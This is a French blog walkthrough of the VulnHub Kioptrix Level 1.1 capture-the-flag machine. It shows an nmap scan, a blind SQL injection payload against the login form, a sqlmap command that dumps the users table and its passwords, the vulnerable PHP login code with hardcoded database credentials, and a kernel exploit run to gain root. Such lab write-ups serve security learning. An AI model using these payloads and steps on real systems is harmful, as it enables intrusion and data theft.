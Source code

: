 ```yaml
---
title: "Solution du CTF Kioptrix: 1.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


Après un temps... quelque peu plus long que prévu, *SourceForge* a pu régler les derniers bugs provoqués par sa mise à jour et je peux enfin poster à nouveaux des articles.  

Comme prévu les walkthroughs à venir concernent la saga *Kioptrix*, ici il s'agit de [l'épisode 1.1](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) qui est bien le second et non une mise à jour du premier.  

Web exploitation 101
--------------------

```plain
Nmap scan report for 192.168.1.39
Host is up (0.00021s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            681/udp  status
|_  100024  1            684/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-07T23:10:47+00:00
|_Not valid after:  2010-10-07T23:10:47+00:00
|_ssl-date: 2018-02-13T20:41:56+00:00; +4h59m59s from local time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: 403 Forbidden
684/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
```

Le site web dispose d'une page de login très basique (champs user, password, bouton submit). *Wapiti* n'en fait qu'une bouchée :  

```plain
[*] Lancement du module blindsql
---
Faille d'injection SQL en aveugle dans http://192.168.1.39/index.php via une injection dans le paramètre uname
Evil request:
    POST /index.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    uname=%27%20or%20benchmark%2810000000%2CMD5%281%29%29%231&psw=letmein&btnLogin=Login
---
```

On enchaîne avec *sqlmap*, son meilleur ami :  

```bash
python sqlmap.py -u http://192.168.1.39/index.php --data "uname=Administrator&psw=test&btnLogin=Login" --risk 3 --level 5
```

Après avoir obtenu le nom de la base de données et des tables intéressantes on peut dumper le contenu de la table users avec *-D webapp -T users --dump*  

```plain
Database: webapp
Table: users
[2 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

Avec ces identifiants on peut passer la page de login et on tombe sur une classique faille d'exécution de commande :  

![Kioptrix 1.1 ping command execution](https://raw.githubusercontent.com/devl00p/blog/master/images/kioptrix/kioptrix2.png)

On en profite pour chercher quelques identifiants :  

```php
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
```

20CentOS
--------

Les identifiants ne permettent pas d'accéder aux comptes présents (*harold* et *john*) mais comme c'est un *Kioptrix* il suffit de chercher le bon exploit pour le système :  

```plain
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final
```

Ce qui nous amène à [une faille](https://www.exploit-db.com/exploits/9542/) découverte par *Tavis Ormandy* et *Julien Tinnes* touchant le kernel.  

```plain
bash-3.00$ gcc -o sploit sploit.c
gcc -o sploit sploit.c
sploit.c:109:28: warning: no newline at end of file
bash-3.00$ ./sploit
./sploit
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```

Au suivant !  


*Published February 22 2018 at 12:13*
